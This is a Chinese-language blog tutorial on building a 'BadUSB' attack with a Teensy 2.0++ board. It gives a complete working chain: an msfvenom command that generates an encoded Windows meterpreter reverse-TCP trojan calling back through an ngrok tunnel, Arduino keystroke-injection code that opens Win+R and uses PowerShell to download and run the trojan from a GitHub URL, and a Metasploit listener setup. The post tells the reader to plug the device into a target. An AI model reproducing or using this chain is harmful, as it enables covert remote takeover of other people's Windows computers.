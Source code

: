 ```yaml
---
title: 渗透利器-Teensy（低配版BadUSB）
date: 2018-09-25 
tags: kali
layut: post
---
```


### 准备工作
* 一块 **Teensy2.0++** 的板子(淘宝一搜就有)
* Arduino解释器
    - 1.8.7版本下载连接：[arduino下载地址](https://downloads.arduino.cc/arduino-1.8.7-linux64.tar.xz "arduino") 
* Teensy插件
    - 下载连接：[Teensy下载地址](https://www.pjrc.com/teensy/td_144/TeensyduinoInstall.linux64 "Teensy")
    
![1](http://da1sy.github.io/assets/images/9-Yue/teensy-1.jpg)

### 1.下载好arduino后直接解压
```linux
⚡ /home/da1sy/arduino-1.8.7# ./arduino
```
### 2.安装Teensy插件
```
⚡ /home/da1sy/arduino-1.8.7# ./TeensyduinoInstall.linux64
```
**注意将插件安装到arduino的解压目录下**
### 3.arduino修改配置
打开软件后将 **工具** 下配置修改如下
![2](http://da1sy.github.io/assets/images/9-Yue/teensy-2.jpg)

### 4.利用ngrok实现内网穿透
#### 在https://www.ngrok.cc/ 注册账号后开通tcp隧道
![3](http://da1sy.github.io/assets/images/9-Yue/teensy-3.png)
#### 下载客户端
```linux
⚡/home/da1sy/桌面/linux_amd64# ./sunny clientid 隧道ID号
```
![4](http://da1sy.github.io/assets/images/9-Yue/teensy-4.png)
### 5.利用msfvenom生成windows端木马
```linux
 ⚡/home/da1sy# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 12 -b '\x00' lhost=free.idcfengye.com lport=17839 -f exe > windows.exe  
```
**lhost** 为运行sunny后的域名，**lport**为开通隧道时填写的端口（运行后也会有显示）
#### **最后将生成的木马放到github项目上实现远程下载**
### 6.编辑arduino代码
```arduino
char *command1 = "powershell -Command $clnt = new-object System.Net.WebClient;$url= 'https://raw.githubusercontent.com/da1sy/da1sy/master/windows.exe';$file = ' %HOMEPATH%\\windows.exe ';$clnt.DownloadFile($url,$file); ";
char *command2 = "%HOMEPATH%\\windows.exe ";
//将连接的地址改为自己github的地址
void setup() { 
    delay(5000);
    omg(command1);
    delay(15000);
    omg(command2);
 }
  
void loop() {}

void omg(char *SomeCommand)
{
  Keyboard.set_modifier(128); 
  Keyboard.set_key1(KEY_R);
  Keyboard.send_now(); 
  Keyboard.set_modifier(0); 
  Keyboard.set_key1(0); 
  Keyboard.send_now(); 
  delay(1500);
  Keyboard.println(SomeCommand);
}
```
#### 编辑好后点**验证**，然后插入**Teensy**板子，最后按一下板子上的按钮完成上传

### 7.metasploit开启监听
```
⚡ /home/da1sy/# msfconsole

msf > use exploit/multi/handler
msf exploit(multi/handler) > set lhost 127.0.0.1   
msf exploit(multi/handler) > set lport 6666        //ngrok开通隧道时填写的本地地址与端口号
msf exploit(multi/handler) > exploit
```
![5](http://da1sy.github.io/assets/images/9-Yue/teensy-5.png)

### 8.最后对目标插入badusb
效果图如下
![6](http://da1sy.github.io/assets/images/9-Yue/teensy-s1.gif)

监听端
![7](http://da1sy.github.io/assets/images/9-Yue/teensy-s2.gif)

> 最后反弹的会话好像是出现了毛病，不过总体上嘛 问题不大

### 一些其他的代码
```
有时间再补
```
